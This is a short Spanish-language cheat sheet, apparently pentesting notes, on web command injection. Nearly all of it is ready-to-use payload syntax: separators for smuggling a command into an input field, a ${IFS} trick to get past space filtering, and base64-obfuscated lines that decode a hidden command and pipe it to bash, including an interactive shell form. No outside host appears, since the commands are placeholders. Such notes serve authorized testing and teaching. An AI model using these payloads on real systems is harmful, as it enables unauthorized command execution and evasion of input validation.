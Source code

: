 ### Inyección de comandos WEB  

hay varias maneras de inyectar comandos, por ejemplo en burpsuite. Si identificamos un campo, lugar donde creemos que se pueda inyectar comandos, aquí se listan varias opciones para hacerlo.  
```
$(comando)
;comando
;comando;
;comando;#

No todos los comandos funcionan, probar con: id, whoami, ps, ls ...
```

Si no nos permite espacios:  
```
Cambiamos el espacio por ${IFS} ejemplo:
echo${IFS}hola${IFS}mundo
```

Conversión a base64 (para evitar el error con caracteres no permitidos, como el &)
```
# Bash B64 Ofuscated
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```